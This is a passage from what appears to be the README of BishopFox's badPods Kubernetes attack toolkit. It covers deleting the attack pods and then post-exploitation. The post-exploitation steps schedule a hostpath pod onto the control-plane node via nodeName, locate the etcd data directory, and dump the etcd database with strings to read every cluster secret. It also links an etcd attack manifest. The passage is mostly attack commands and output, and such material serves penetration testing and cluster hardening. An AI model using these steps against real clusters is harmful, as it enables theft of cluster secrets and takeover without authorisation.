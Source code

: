 ## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostpath/pod/hostpath-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
kubectl delete pod hostpath-exec-pod
kubectl delete cronjob hostpath-exec-cronjob
```

# Post exploitation

## Can you run your pod on a control-plane node
The pod you created above was likely scheduled on a worker node. Before jumping into post exploitation on the worker node, it is worth seeing if you run your a pod on a control-plane node. If you can run your pod on a control-plane node using the nodeName selector in the pod spec, you might have easy access to the etcd database, which contains all of the configuration for the cluster, including all secrets. This is not a possible on cloud managed Kubernetes clusters like GKE and EKS - they hide the control-plane. 

**Get nodes**
```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

**Pick your manifest, uncomment and update the nodeName field with the name of the control-plane node**
```
nodeName: k8s-control-plane
```
**Create your pod**
```
kubectl apply -f manifests/hostpath/job/hostpath-exec-job.yaml
```

### Read secrets from etcd
If you can run your pod on a control-plane node using the `nodeName` selector in the pod spec, you might have easy access to the `etcd` database, which contains all of the configuration for the cluster, including all secrets. 

Below is a quick and dirty way to grab secrets from `etcd` if it is running on the control-plane node you are on. If you want a more elegant solution that spins up a pod with the `etcd` client utility `etcdctl` and uses the control-plane node's credentials to connect to etcd wherever it is running, check out [this example manifest](https://github.com/mauilion/blackhat-2019/blob/master/etcd-attack/etcdclient.yaml) from @mauilion. 

**Check to see if `etcd` is running on the control-plane node and see where the database is (This is on a `kubeadm` created cluster)**
```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```
Output:
```
data-dir=/var/lib/etcd
```
**View the data in etcd database:**
```
strings /var/lib/etcd/member/snap/db | less
```
